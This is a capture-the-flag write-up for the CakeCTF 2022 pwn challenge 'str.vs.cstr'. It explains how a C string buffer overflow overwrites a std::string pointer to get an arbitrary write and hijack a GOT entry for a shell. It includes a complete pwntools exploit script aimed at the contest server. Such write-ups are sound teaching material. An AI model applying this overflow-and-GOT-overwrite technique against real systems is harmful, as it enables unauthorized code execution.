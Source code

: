 ```yaml
---
title: "[Pwn] str.vs.cstr"
date: 2022-09-04 14:12:00
---
```


# 0x0 Introduction

Which do you like, C string or C++ string?

nc pwn1.2022.cakectf.com 9003

Files: [str_vs_cstr_f088c31cd2d3c18483e24f38df724cad.tar.gz](str_vs_cstr_f088c31cd2d3c18483e24f38df724cad.tar.gz)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

In C++, string are dynamically allocated in the heap. So, it will appear as a pointer in the stack

There is a struct `Test` Exists in the stack and Program allow us to modify both `c_str` and `str`.

Therefore we can overwrite the address of `_str` using `_c_str`, and then we have a write anywhere.
```
char _c_str[0x20];
std::string _str;
```

Program is parial RELRO, therefore we can overwrite a function in GOT to `win` fucntion and get a shell.
```
private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

};
```

one thing to notice is C++ will replace last `\n` to a null bytes - make sure do not put extra bytes that may have effect on other data we don't want modify.

# 0x3 Solution

```python
from pwn import *

exe = ELF("chall")
exe_rop = ROP(exe)
# libc = ELF("libc.so.6")
# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print
def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("pwn1.2022.cakectf.com", 9003)
    return r


io = start()
io.sendlineafter(b"choice: ",b'3')
io.sendlineafter(b"str: ",b'A'*8)
io.sendlineafter(b"choice: ",b'1')
io.sendlineafter(b"c_str: ",flat({
    0x20:0x00404028
}))

io.sendlineafter(b"choice: ",b'3')
io.sendlineafter(b"str: ",b'\xde\x16\x40\x00\x00\x00')

io.sendlineafter(b"choice: ",b'1')
io.sendlineafter(b"str: ",flat({
    0x20: 0x0404a00,
    0x28: 8,
    0x40:0
},length=0x50))
io.sendlineafter(b"choice: ",b'3')
io.sendlineafter(b"str: ",b'A'*0x20)
io.sendlineafter(b"choice: ",b'5')
io.interactive()
```